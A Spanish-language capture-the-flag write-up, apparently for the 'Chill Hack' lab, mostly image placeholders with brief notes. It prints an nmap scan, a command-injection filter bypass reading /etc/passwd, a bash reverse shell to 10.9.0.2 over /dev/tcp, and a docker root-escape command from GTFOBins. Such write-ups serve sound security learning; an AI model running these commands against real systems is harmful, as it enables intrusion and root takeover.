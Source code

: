 ```yaml
---
hidden: true
---
```


# 💻 Chill Hack

## Escaneo

Comenzamos haciendo un escaneo de puertos con **Nmap:**

```bash
map -p- --open --min-rate 5000 -sSVC -Pn -v -oN escaneo.txt 10.10.14.130
```

<figure><img src="../../.gitbook/assets/imagen (41).png" alt=""><figcaption></figcaption></figure>

ftp y nota\


<figure><img src="../../.gitbook/assets/imagen (43).png" alt=""><figcaption></figcaption></figure>



pagina web

<figure><img src="../../.gitbook/assets/imagen (44).png" alt=""><figcaption></figcaption></figure>

gobuster



probar ruta secret&#x20;

<figure><img src="../../.gitbook/assets/imagen (45).png" alt=""><figcaption></figcaption></figure>

enccontramos restricciiones menciionadas en note.txt

<figure><img src="../../.gitbook/assets/imagen (46).png" alt=""><figcaption></figcaption></figure>

Parece que podemos pasar este filtro usando echo y confirmamos usuarios mencionados en la nota

```bash
echo $(cat /etc/passwd)
```

<figure><img src="../../.gitbook/assets/imagen (48).png" alt=""><figcaption></figcaption></figure>

reverse shell

```bash
echo $(bash -c  "bash -i >& /dev/tcp/10.9.0.2/443 0>&1")
```

<figure><img src="../../.gitbook/assets/imagen (50).png" alt=""><figcaption></figcaption></figure>

entramos a la unica carpeta del usuarioi all que tenemos permiso, y dentro de .ssh vemos ell archivo authorized\_keys

<figure><img src="../../.gitbook/assets/imagen (51).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (52).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (53).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (54).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (61).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (62).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/docker/" %}

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (63).png" alt=""><figcaption></figcaption></figure>
